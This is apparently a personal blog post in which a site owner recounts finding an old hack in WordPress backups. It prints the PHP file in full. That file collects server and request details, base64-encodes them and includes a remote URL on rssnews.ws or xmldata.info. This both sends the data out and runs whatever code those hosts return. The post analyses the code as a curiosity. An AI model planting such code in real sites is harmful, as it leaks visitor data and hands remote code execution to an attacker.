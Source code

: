 ```yaml
---
title: "An old WordPress hack I found"
date: "Fri Jan 21 14:45:00 -0500 2022"
category: dev
---
```


I was poking through old WordPress backups I have and noticed a strange
`wp-content/85060.php` file. Turns out one of my sites was hacked back in 2006
or 2007 and I had never noticed.

The file looks to be a surveillance script of some sort that sends server
information to another site `rssnews.ws` or `xmldata.info`.

```php
<? error_reporting(0);
$s="e";
$a=(isset($_SERVER["HTTP_HOST"]) ? $_SERVER["HTTP_HOST"] : $HTTP_HOST);
$b=(isset($_SERVER["SERVER_NAME"]) ? $_SERVER["SERVER_NAME"] : $SERVER_NAME);
$c=(isset($_SERVER["REQUEST_URI"]) ? $_SERVER["REQUEST_URI"] : $REQUEST_URI);
$d=(isset($_SERVER["PHP_SELF"]) ? $_SERVER["PHP_SELF"] : $PHP_SELF);
$e=(isset($_SERVER["QUERY_STRING"]) ? $_SERVER["QUERY_STRING"] : $QUERY_STRING);
$f=(isset($_SERVER["HTTP_REFERER"]) ? $_SERVER["HTTP_REFERER"] : $HTTP_REFERER);
$g=(isset($_SERVER["HTTP_USER_AGENT"]) ? $_SERVER["HTTP_USER_AGENT"] : $HTTP_USER_AGENT);
$h=(isset($_SERVER["REMOTE_ADDR"]) ? $_SERVER["REMOTE_ADDR"] : $REMOTE_ADDR);
$i=(isset($_SERVER["SCRIPT_FILENAME"]) ? $_SERVER["SCRIPT_FILENAME"] : $SCRIPT_FILENAME);
$j=(isset($_SERVER["HTTP_ACCEPT_LANGUAGE"]) ? $_SERVER["HTTP_ACCEPT_LANGUAGE"] : $HTTP_ACCEPT_LANGUAGE);

$str=base64_encode($a).".".
	base64_encode($b).".".
	base64_encode($c).".".
	base64_encode($d).".".
	base64_encode($e).".".
	base64_encode($f).".".
	base64_encode($g).".".
	base64_encode($h).".$s.".
	base64_encode($i).".".
	base64_encode($j);

// base64_decode('d3d3My5yc3NuZXdzLndz") #=> rssnews.ws
if ((include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My5yc3NuZXdzLndz")."/?".$str))) {
} else {
	// base64_decode("aHR0cDovLw==")             #=> http://
	// base64_decode("d3d3My54bWxkYXRhLmluZm8=") #=> www3.xmldata.info
	include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My54bWxkYXRhLmluZm8=")."/?".$str);
} ?>
```

No idea what this would be for, and I didn't see any other malicious files
present. Presumably this was intended to give an attacker a list of vulnerable
sites that they could exploit later.

Fun to find out about a hack 15 years later!
